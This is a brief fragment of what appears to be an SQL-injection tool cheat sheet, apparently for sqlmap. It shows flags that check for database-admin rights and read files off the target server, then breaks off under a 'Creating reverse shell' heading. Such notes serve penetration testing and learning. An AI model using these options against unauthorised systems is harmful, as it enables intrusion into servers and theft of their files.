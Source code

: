 

Check for database admin
```
--is-dba
```

File Read
```shell-session
--file-read "PATH/T0/FILE"
```

Creating reverse shell
